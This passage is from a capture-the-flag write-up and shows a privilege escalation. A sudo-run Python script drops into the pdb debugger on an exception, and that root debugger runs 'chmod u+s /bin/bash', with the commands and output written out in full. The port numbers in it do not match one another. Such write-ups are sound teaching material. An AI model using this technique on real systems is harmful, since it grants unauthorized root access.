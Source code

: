 In the ```except``` portion of the code, we realize that we are able to enter the pdb debugger if an exception is raised.
  
```
except Exception as e:
    print(e)
    pdb.post_mortem(e.__traceback__)
```

Before, we execute the script, lets's check the file permissions of ```/bin/bash```. We notice that the file owner of ```/bin/bash``` is root.
  
```
user@forge:~$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash
```
  
Now, we will execute the code using and we will take note of the port number that the localhost is listening on.

```
user@forge:~$ sudo /usr/bin/python3 /opt/remote-manage.py
Listening on localhost:1123
```
    
### Spawning the PDB debugger
We will then open another terminal and SSH into the server and use netcat to create a reverse connection to the localhost, and enter the secret password to view the given options. Afterwards, we will then input a string to create an exception so that we can enter the debugger
  
```
user@forge:~$ nc localhost 1089
Enter the secret passsword: secretadminpassword
Welcome admin!

What do you wanna do: 
[1] View processes
[2] View free memory
[3] View listening sockets
[4] Quit
sdsdsdsdsdsd
```

After entering the debugger, we will modify the ```/bin/bash``` permissions with ```chmod u+s```. This gives ```/bin/bash```setuid attributes which will then allow any user who are able to execute the file to be able to execute the files with the privileges of the file's owners, which in this case is the root user. This will allow us to execute the ```/bin/bash``` binary with root privileges and obtain our system flag.
  
```
user@forge:~$ sudo /usr/bin/python3 /opt/remote-manage.py
Listening on localhost:54071
invalid literal for int() with base 10: b'sdsdsdsdsd'
> /opt/remote-manage.py(27)<module>()
-> option = int(clientsock.recv(1024).strip())
(Pdb) import os
(Pdb) os.system('chmod u+s /bin/bash')
0
(Pdb) exit
```
